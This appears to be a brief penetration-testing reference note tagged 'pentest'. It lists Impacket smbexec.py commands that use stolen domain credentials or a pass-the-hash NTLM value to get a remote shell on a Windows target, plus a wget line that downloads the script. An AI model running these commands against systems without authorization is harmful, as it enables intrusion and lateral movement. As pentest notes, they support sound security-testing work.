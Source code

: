 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```python - kali
python3 /usr/share/doc/python3-impacket/examples/smbexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

or

```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbexec.py
```

#### Shell with smbexec.py
```python - kali
smbexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```python - kali
smbexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```
